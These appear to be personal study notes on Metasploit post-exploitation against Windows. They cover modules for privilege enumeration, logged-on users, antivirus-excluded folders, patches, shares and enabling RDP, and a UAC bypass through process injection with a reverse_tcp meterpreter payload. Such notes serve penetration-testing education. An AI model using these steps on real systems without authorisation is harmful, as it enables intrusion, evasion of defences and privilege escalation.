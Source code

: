 #### Windows Post Exploitation Modules Example ####
<mark class="hltr-green">Note</mark>: Running these commands will store information in loot, which can be accessed with `loot`
+ May need to migrate meterpreter architecture with <mark class="hltr-red">archmigrate</mark>
	+ `use windows/manage/archmigrate`
	+ Will spawn a compatiable process
+ Can enumerate privileges with <mark class="hltr-red">win_privs</mark>
	+ `use post/windows/gather/win_privs`
	+ Will list information about the current user as well as the actual privilege names 
+ See what users are currently logged on with <mark class="hltr-red">enum_logged_on</mark>
	+ `use post/windows/gather/enum_logged_on_users`
	+ Will see who is frequently logged on or currently logged on 
		+ Will give a heads up to see if we are being watched or noticed
+ Can check if it is a VM with <mark class="hltr-red">checkvm</mark>
	+ `use enum_applications`
	+ Will allow us to know if we need to do a VM breakout 
+ Enumerate programs with <mark class="hltr-red">enum_applications</mark>
	+ `use post/windows/gather/enum_applications
	+ Will also show versions 
+ Can check antivirus and excluded folders that the antivirus does not scan with <mark class="hltr-red">enum_av_excluded</mark>
	+ `use post/windows/gather/enum_av_excluded`
	+ Can set if it is Defender, Essentials, or SEP
+ Enumerate computers in the domain with <mark class="hltr-red">enum_computers</mark>
	+ `use post/windows/gather/enum_computers`
+ Search for installed patches with <mark class="hltr-red">enum_patches</mark>
	+ `use post/windows/gather/enum_patches`
	+ Can specify your **own** list, but will also have default 
	+ Can also use the `shell` command to get a **powershell** and use `systeminfo` which can give patch information ***manually*** 
+ Enumerate shares with <mark class="hltr-red">enum_shares</mark>
	+ `use post/windows/gather/enum_shares`
	+ These will be SMB shares, such as printers of files
+ Check if RDP is running, or enable rdp with <mark class="hltr-red">enable_rdp</mark>
	+ `use post/windows/manage/enable_rdp` 

### Windows Privilege Escalation: Bypassing UAC ###

#### UAC ####
+ <mark class="hltr-yellow">User Account Control</mark> (UAC), a Windows security feature introduced in Windows Vista that prevents unauthorized changes from being made to the OS
+ Used to ensure that changes to the OS require approval from the admin
+ Can utilize "**Windows Escalate UAC Protection Bypass (In Memory Injection)**" module to bypass UAC by utilize the trusted publisher certificate through process injection 
	+ Will spawn a second shell that has the UAC flag turned off 
	+ Requires x64 merterpreter session
		+ Example: `set payload windows/x64/meterpreter/reverse_tcp`


![[UAC 1.png]]
